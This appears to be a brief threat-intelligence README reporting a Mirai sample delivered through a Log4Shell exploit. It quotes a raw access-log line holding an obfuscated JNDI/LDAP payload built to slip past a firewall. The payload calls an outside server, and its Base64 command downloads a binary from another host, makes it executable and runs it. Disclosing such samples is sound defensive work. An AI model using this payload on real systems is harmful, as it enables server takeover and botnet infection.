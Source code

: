 # mirai_sample
mirai sample detected in logs being delivered via jndi waf bypass submitted to VirusTotal -> https://www.virustotal.com/gui/file/38178574a5ff459b732775e483d6a91aa95ce653e66fb6040812da2acf6a17f7?nocache=1


sample was detected in Logs:

"GET / HTTP/1.1" 200 10049 "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//150.136.111.68:1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8vMTU4LjEwMS4xMTguMjM2L2Rldl9zc2hkOyBjdXJsIC1PIGh0dHA6Ly8xNTguMTAxLjExOC4yMzYvZGV2X3NzaGQ7IGNobW9kIDc3NyBkZXZfc3NoZDsgLi9kZXZfc3NoZCB4ODYuZXhwbG9pdA==}')" "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//150.136.111.68:1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8vMTU4LjEwMS4xMTguMjM2L2Rldl9zc2hkOyBjdXJsIC1PIGh0dHA6Ly8xNTguMTAxLjExOC4yMzYvZGV2X3NzaGQ7IGNobW9kIDc3NyBkZXZfc3NoZDsgLi9kZXZfc3NoZCB4ODYuZXhwbG9pdA==}')"
